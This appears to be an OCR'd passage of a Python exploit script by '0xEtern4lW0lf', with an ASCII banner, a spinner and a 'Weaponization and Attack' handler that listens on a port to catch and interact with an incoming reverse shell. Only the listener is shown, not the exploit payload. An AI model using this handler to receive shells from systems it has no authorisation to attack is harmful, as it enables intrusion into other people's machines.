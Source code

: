 ```python
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠝⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠘⣷⡌⠿⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣴⠋⠀⣸⣧⣄⡀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⡄⠁
⠀⠀⠀⠀⠀⠀⠀⢀⣾⣏⣴⠟⢻⣿⠟⠛⠶⡄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⠀⢻⣿⡀
⠀⠀⠀⠀⠀⠀⠀⣼⣿⣿⣿⣴⠿⠃⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢹⢳⣜⣿⡇
⠀⠀⠀⠀⠀⣠⣾⣿⠟⠋⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⡇⢿⣿⡇
⠀⠀⢀⣤⣾⡿⠋⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⠸⣿⠇
⢀⣴⣿⡿⠋⠀⠀⠀⠀⠀⣀⣤⣶⣶⣦⣄⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣀⠀⠀⢸⣿⡄⡿⠀
⢺⣿⡏⠀⠀⠀⠀⢀⣤⣾⣿⠿⠛⠋⠙⠻⣇⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⡝⣦⠀⣸⣿⡧⠃⠀
⠀⠈⠉⠀⢠⣤⣶⣿⡿⠋⠀⠀⠀⠀⠀⡀⠈⠂⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢠⡇⣿⣷⣿⣿⠀⠀⠀
⠀⠀⠀⠀⠀⠈⠉⠉⠁⠀⠀⠀⠀⢀⡜⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⡆⠀⠀⣼⡇⣾⣿⣿⠇⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⢀⣴⢻⣿⣀⣾⣿⢡⣿⡿⠋⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⠏⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⣠⣴⡿⢣⣿⣿⣿⣿⣣⡿⠋⠁⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⣰⣿⡿⠀⠀⠀⠀⠀⣀⣠⣤⣴⣶⣿⠿⣋⣴⣿⣿⠿⠛⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢀⣿⣿⡇⠀⢀⣠⣶⣿⣿⡿⠟⠋⠉⠐⠊⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⢸⣿⣿⣇⣴⣿⣿⡿⠟⠉⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠸⣿⣿⣿⣿⣿⠋⠀⠀⠀⠀⠀{RED}#--------------------------------------------#
 _____  _                         ___  _  _    _  _____  _   __ 
|  ___|| |                       /   || || |  | ||  _  || | / _|
| |__  | |_   ___  _ __  _ __   / /| || || |  | || |/' || || |_ 
|  __| | __| / _ \| '__|| '_ \ / /_| || || |/\| ||  /| || ||  _|
| |___ | |_ |  __/| |   | | | |\___  || |\  /\  /\ |_/ /| || |  
\____/  \__| \___||_|   |_| |_|    |_/|_| \/  \/  \___/ |_||_|  
                                                                
#----------------------------------------------------------------# 
    
    Author: {GREEN}0xEtern4lW0lf{END}                           
    {RED}Site: {BLUE}https://0xetern4lw0lf.github.io/{END}

    FOR EDUCATIONAL PURPOSE ONLY.

  """
  return print(f'{BLUE}{EwLogo}{END}')

# Pretty loading wheel
def loading(spins):

    def spinning_cursor():
        while True:
            for cursor in '|/ -\\':
                yield cursor

    spinner = spinning_cursor()
    for _ in range(spins):
        sys.stdout.write(next(spinner))
        sys.stdout.flush()
        time.sleep(0.1)
        sys.stdout.write('\b')

#### Weaponization and Attack

## Set the handler
def handler(lport,target):
    print(f"\n{BLUE}[+] LISTEN: {YELLOW}Starting handler on {GREEN}{lport} {BLUE}[+]{END}")
    tn = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(("0.0.0.0",lport))
    s.listen(1)
    conn, addr = s.accept()
    loading(8)
    print(f"{BLUE}[+] LISTEN: {YELLOW}Receiving connection from {GREEN}{target} {BLUE}[+]{END}")
    tn.sock = conn
    print(f"\n{BLUE}[+] SUCCESS: {GREEN}HABEMUS SHELL! {BLUE}[+]{END}\n")
    tn.interact()
```